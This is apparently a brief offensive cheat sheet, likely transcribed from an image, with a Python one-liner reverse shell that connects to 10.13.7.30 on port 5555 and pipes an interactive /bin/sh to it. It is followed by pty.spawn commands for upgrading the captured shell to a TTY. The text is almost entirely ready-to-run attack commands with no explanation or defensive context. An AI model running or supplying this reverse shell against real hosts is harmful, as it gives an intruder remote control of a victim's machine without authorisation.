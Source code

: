 python

Reverse Shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.7.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

TTY Support for Linux

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -c "import pty;pty.spawn('/bin/bash')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
